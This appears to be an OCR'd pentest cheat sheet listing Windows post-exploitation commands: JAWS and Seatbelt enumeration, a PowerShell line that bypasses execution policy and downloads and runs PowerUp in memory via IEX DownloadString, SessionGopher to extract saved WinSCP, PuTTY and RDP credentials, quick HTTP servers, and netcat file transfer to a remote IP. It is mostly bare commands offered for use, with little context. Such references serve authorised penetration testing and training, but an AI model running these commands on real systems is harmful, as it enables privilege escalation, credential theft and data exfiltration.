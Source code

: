         -   powershell.exe -ExecutionPolicy Bypass -File .\\jaws-enum.ps1

        -   powershell.exe -ExecutionPolicy Bypass -File .\\jaws-enum.ps1 -OutputFilename result.txt

    -   seatbealt

        -   Seatbelt.exe -group=all -full

        -   Seatbelt.exe -group=system -outputfile=\"C:\\Temp\\system.txt\"

    -   powerup.ps1 (from powersploit)

        -   Powershell -ExecutionPolicy bypass

        -   IEX (New-Object Net.WebClient).DownloadString(\"<https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1>\");

        -   Or wget <https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1>

        -   Invoke-AllChecks;

    -   SessionGopher

        -   is a PowerShell tool that uses WMI to extract saved session information for remote access tools such as WinSCP, PuTTY, SuperPuTTY, FileZilla, and Microsoft Remote Desktop. It can be run remotely or locally.

        -   git clone <https://github.com/Arvanaghi/SessionGopher>

        -   .\\SessionGopher.ps1

        -   Invoke-SessionGopher -Thorough


-   **Make an http server**

    -   **php**

        -   php -S 0.0.0.0:8080

    -   **python**

        -   python -m http.server 8080 -\>version 3

        -   python -m SimpleHTTPServer 8000

    -   **npm**

        -   npm install http-server -g

        -   http-server -p port -\> from anywhere or directory

    -   **Apache**

        -   Service appache2 start

        -   Put your files in /var/www/html

-   <h2 align="center">File Transfer</h2>

    -   **NETCAT**

        -   nc ip 1234 \< file.txt

        -   nc -nlvp 1234 \>received.txt
